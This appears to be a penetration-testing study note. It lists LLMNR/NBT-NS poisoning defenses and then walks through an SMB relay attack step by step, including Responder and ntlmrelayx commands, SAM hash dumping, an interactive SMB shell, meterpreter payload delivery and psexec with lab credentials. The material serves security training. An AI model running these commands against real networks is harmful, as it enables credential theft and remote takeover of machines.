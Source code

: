 **LLMNR Poisoning Defense**
- Disable LLMNR and NBT-NS
  - To disable LLMNR, select "Turn OFF Multicast Name Resolution" under Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor.
  - To disable NBT-NS, navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > WINS tab and select "Disable NetBIOS over ICP/IP"
- If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is to:
  - Require Network Access Control. Example, MAC binding or switchport mode security so that an attacker device cannot connect into the network.
  - Require strong user passwords (e.g., > 14 characters in length and limit common usage).<br><br>
  
### SMB Relay Overview
- Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access
- Requirements
  - SMB signing must be disabled on the target
  - Replayed user credentials must be admin on machine
    - Grab the NTLM hash from one machine and relay that NTLM hash to another machine as specified on ntlmrelayx. Therefore at least two machine should be there to perform relay
- Step 1
  - Discover Hosts with SMB Signing Disabled
    - `nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24`
    - If the result is Message signing enabled but not required, then we can perform attack as well.
- Step 2
  - Add the IPs with SMB signing disabled on targets.txt file.
- Step 3
  - Open the responder configuration file and turn off the SMB and HTTP. `vim /usr/share/responder/Responder.conf` or `vim /etc/responder/Responder.conf`
  - We will be listening but not going to be responding
- Step 4
  - Run Responder : `python Responder.py -I eth0 -rdwv`
- Step 5
  - Run [NTLMrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py). `python ntlmrelayx.py -tf targets.txt -smb2support`
  - It takes the relay and passes it to the target file that you specify. -smb2support : incorporate anything with SMB too.
  - Wait until an event triggers
- Step 6 : Win
  - It relays the credentials that it captures to this other machine. It will list the SAM files (same as /etc/shadow file on Linux)
  - We can crack those hashes to get the passwords or we can pass those hashes to get access to other machines as well.
- Step 7 : Post Exploitation
  - Run responder as before
  - Run NTLMRelayx in interactive mode
    - `python ntlmrelayx.py -tf targets.txt -smb2support -i` 
  - Setup a listener
    - `nc 127.0.0.1 <portnumber>` Port number can be gained from the result from ntlmrelayx
    - `help` : Here we gained the SMB shell
    - List shares : `shares`
    - `Use C$`
    - `ls`
    - We can have a full access on the computer like we can add file, read file
  - We can also setup a meterpreter listener
    - `python ntlmrelayx.py -tf targets.txt -smb2support -e test.exe` where test.exe is a meterpreter payload (executable)
  - Executes some specifc commands
    - `python ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"` 
  - Getting a shell with [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)
    - `python3 psexec.py marvel.local/fcastle:Password1@192.168.57.141` <br><br>
